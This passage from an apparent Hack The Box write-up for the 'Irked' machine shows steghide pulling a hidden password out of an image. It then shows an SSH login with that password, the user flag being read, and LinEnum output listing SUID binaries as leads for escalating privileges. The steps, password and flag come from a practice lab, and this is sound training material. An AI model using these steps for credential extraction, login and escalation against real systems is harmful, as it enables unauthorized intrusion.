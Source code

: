 irked.jpg                                                  100%[=======================================================================================================================================>]  33.88K  --.-KB/s    in 0.04s   

2020-09-20 14:54:11 (903 KB/s) - ‘irked.jpg’ saved [34697/34697]
```

Now we can use **steghide**:

```
┌──(kali㉿kali)-[~/Desktop/HTB/Irked]
└─$ steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss  

wrote extracted data to "pass.txt".
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/HTB/Irked]
└─$ cat pass.txt    

Kab6h+m+bbp2J:HG
```

## ssh
We can ssh now using the pasword we have:

```
┌──(kali㉿kali)-[~/Desktop/HTB]
└─$ ssh djmardov@10.10.10.117
The authenticity of host '10.10.10.117 (10.10.10.117)' can't be established.
ECDSA key fingerprint is SHA256:kunqU6QEf9TV3pbsZKznVcntLklRwiVobFZiJguYs4g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.117' (ECDSA) to the list of known hosts.
djmardov@10.10.10.117's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

Get the User Flag:

```
djmardov@irked:~/Documents$ cat user.txt 
4a66a78b12dc0e661a59d3f5c0267a8e
```

# Root Flag

Upload [LinEnum.sh](https://github.com/rebootuser/LinEnum "LinEnum.sh") to the box and run it. You will find something in the **SUID files** section:

```
[-] SUID files:
-rwsr-xr-x 1 root root 1085300 Feb 10  2018 /usr/sbin/exim4
-rwsr-xr-- 1 root dip 338948 Apr 14  2015 /usr/sbin/pppd
-rwsr-xr-x 1 root root 43576 May 17  2017 /usr/bin/chsh
-rwsr-sr-x 1 root mail 96192 Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 78072 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 38740 May 17  2017 /usr/bin/newgrp
-rwsr-sr-x 1 daemon daemon 50644 Sep 30  2014 /usr/bin/at
-rwsr-xr-x 1 root root 18072 Sep  8  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 9468 Apr  1  2014 /usr/bin/X